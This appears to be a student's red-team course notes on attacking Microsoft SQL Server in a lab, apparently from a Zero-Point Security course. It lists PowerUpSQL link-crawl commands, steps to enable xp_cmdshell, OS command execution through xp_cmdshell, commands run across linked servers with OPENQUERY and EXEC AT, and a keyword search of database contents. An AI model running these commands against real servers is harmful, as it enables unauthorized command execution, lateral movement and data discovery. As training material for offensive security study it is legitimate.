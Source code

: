 - PowerUpSQL
	- `powershell Get-SQLServerLinkCrawl -Instance 'sql-1.cyberbotic.io,1433'`
	- `powershell Get-SQLServerLinkCrawl -Instance 'sql-1.cyberbotic.io,1433' -Query 'select @@version' | select Instance, CustomQuery | % { $_ | Add-Member NoteProperty 'QueryResult' $($_.CustomQuery[0]); $_ } | fl`
- Queries:
	- `SELECT @@version`
	- `SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'`
	- `EXEC xp_cmdshell 'dir C:\'`
	- Enable xp_cmdshell:
		- `sp_configure 'Show Advanced Options', 1; RECONFIGURE;`
		- `sp_configure 'xp_cmdshell', 1; RECONFIGURE`
	- Discover linked databases:
		- `SELECT * FROM master..sysservers`
	- Execute queries on linked databases:
		- `SELECT * FROM OPENQUERY("SQL02.DEV.ZEROPOINTSECURITY.CO.UK", 'select * FROM master..sysservers')`
		- `EXEC('xp_cmdshell "dir C:\"') AT [sql02.dev.zeropointsecurity.co.uk]`
		- `SELECT * FROM OPENQUERY("sql02.dev.zeropointsecurity.co.uk", 'select * from sys.configurations where name = ''xp_cmdshell''')`
		- `SELECT * FROM OPENQUERY("sql02.dev.zeropointsecurity.co.uk", 'select @@servername; exec xp_cmdshell ''whoami''')`
	- Search for specific keywords in databases and format results into table
		- `Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ? { $_.Status -eq 'Accessible' } | Get-SQLColumnSampleDataThreaded -SampleSize 5 -Keywords 'student,name' -NoDefaults | select instance, database, column, sample | ft -autosize`